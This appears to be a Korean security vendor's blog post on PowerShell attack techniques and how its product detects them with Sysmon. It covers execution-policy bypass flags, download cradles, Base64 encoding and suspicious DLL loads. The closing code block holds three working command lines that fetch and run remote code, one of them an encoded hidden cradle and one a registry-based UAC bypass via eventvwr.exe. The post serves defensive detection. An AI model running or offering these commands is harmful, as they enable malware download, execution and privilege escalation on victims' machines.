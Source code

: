 ```yaml
---
date: 2020-05-12T00:03:00
draft: false
title: "PowerShell을 이용한 공격"
description: 
featured_image: "cdn/threats/powershell_attack_techniques-1.png"
tags: ["PowerShell", "악성코드", "웹 해킹", "보안 취약점", "PLURA"]
---
```


PowerShell은 시스템 관리 및 자동화를 목적으로 설계된 명령줄 셸 및 스크립팅 언어입니다.  
Windows Vista 이후 기본 탑재되었으며, 관리 도구로 유용한 만큼 공격자들에게도 자주 사용되고 있습니다.

<!--more-->
![powershell_attack_techniques](https://blog.plura.io/cdn/threats/powershell_attack_techniques-1.png)

---

### 1. 실행 정책 (Execution Policy)

Microsoft는 기본적으로 PowerShell 스크립트 실행을 제한합니다.  
그러나 공격자는 이를 쉽게 우회할 수 있습니다.  

**우회 플래그 예시:**  
- `-ExecutionPolicy` 또는 `-EP Bypass`  
- `-ExecutionPolicy` 또는 `-EP Unrestricted`  
- `-noprofile` 또는 `-nop`  

*Profile Bypass: 각 세션이 시작될 때 PowerShell을 구성하기 위해 설정된 Profile도 무시할 수 있습니다.*

---

### 2. 다운로드

PowerShell 클래스 및 메소드를 사용하여 악성 파일을 다운로드 및 실행할 수 있습니다.  

자주 사용되는 명령어:  
- **New-Object**: .NET Framework의 인스턴스를 생성합니다.  
- **System.Net.WebClient**: 원격 리소스와 데이터 송수신에 사용됩니다.  
- **DownloadString**: 원격지에서 내용을 메모리 버퍼로 다운로드합니다.  
- **DownloadFile**: 원격지에서 로컬 파일로 콘텐츠를 다운로드합니다.  
- **IEX (Invoke-Expression)**: 명령을 실행합니다.  
- **ICM (Invoke-Command)**: 로컬 및 원격 컴퓨터에서 명령을 실행합니다.

---

### 3. 인코딩

- PowerShell 명령어를 숨기기 위해 Base64 인코딩이 자주 사용됩니다.  
- 인코딩된 명령어는 명령줄 길이가 비정상적으로 길어질 수 있습니다.  
- 500자 이상의 긴 명령어는 의심해볼 필요가 있습니다.

---

### 4. DLL 호출

- 의심스러운 DLL 호출 조합을 찾아야 악의적 행동을 탐지할 수 있습니다.  
- PowerShell.exe 또는 PowerShell_ISE.exe 이외의 실행 파일에서 아래 DLL 호출이 발생하는지 모니터링하세요.  
  - `System.Management.Automation.Dll`  
  - `System.Management.Automation.ni.Dll`  
  - `System.Reflection.Dll`  

*Sysmon ID 7 (ImageLoaded)을 활용해 확인할 수 있습니다.*

---

### 5. PLURA에서 PowerShell 악성 행위 탐지

**Sysmon 설치 필수**  
- [설치 가이드 보기](https://docs.plura.io/ko/agents/edr/windows/sysmon)

![PLURA 탐지](https://github.com/user-attachments/assets/7f971a25-61de-4a51-8e71-c4e861881576)

---

#### 악성 파일 실행 탐지 예시

PowerShell 우회 및 공격자 서버에서 파일 다운로드 행위 발생:  

![PowerShell 악성 실행](https://github.com/user-attachments/assets/11765e61-7cd0-4b98-8fce-026429934f1c)

**PLURA 필터 탐지**  
PLURA는 Sysmon을 활용하여 아래와 같은 악성 명령을 탐지합니다:

```bash
powershell.exe -nop -NoProfile -WindowStyle 1 -c IEX (New-Object Net.WebClient).DownloadString('https://blog.plura.io/demo/testfile.exe')

cmd.exe /c Start /Min PowerShell.exe -NoP -NonI -EP ByPass -W Hidden -E JE9TPShHV21pIFdpbjMyX09wZXJhdGluZ1N5c3RlbSkuQ2FwdGlvbjskV0M9TmV3LU9iamVjdCBOZXQuV2ViQ2xpZW50OyRXQy5IZWFkZXJzWydVc2VyLUFnZW50J109IlBvd2VyU2hlbGwvV0wgJE9TIjtJRVggJFdDLkRvd25sb2FkU3RyaW5nKCdodHRwOi8vYmxvZy5wbHVyYS5pby9kZW1vL3Rlc3RmaWxlLnBocCcpOw==

cmd.exe /c powershell.exe -w hiddden -nop -ep bypass (New-Object System.Net.WebClient).DownloadFile('http://blog.plura.io/demo/sick.exe','%TEMP%\sick.exe') & reg add HKCU\SOFTWARE\Classes\mscfile\shell\open\command /d %tmp%\sick.exe /f & C:\Windows\system32\eventvwr.exe & PING -n 15 127.0.0.1>nul & %tmp%\sick.exe
```

## 📖 함께 읽기

- [SANS 자료](https://www.sans.org/cyber-security-summit/archives/file/summit-archive-1511980157.pdf)  
- [Broadcom 보고서](https://docs.broadcom.com/doc/increased-use-of-powershell-in-attacks-16-en)  
- [AhnLab 기사](https://www.ahnlab.com/kr/site/securityinfo/secunews/secuNewsView.do?seq=25651)  
- [보안뉴스 보기](https://bit.ly/2V99SLF)

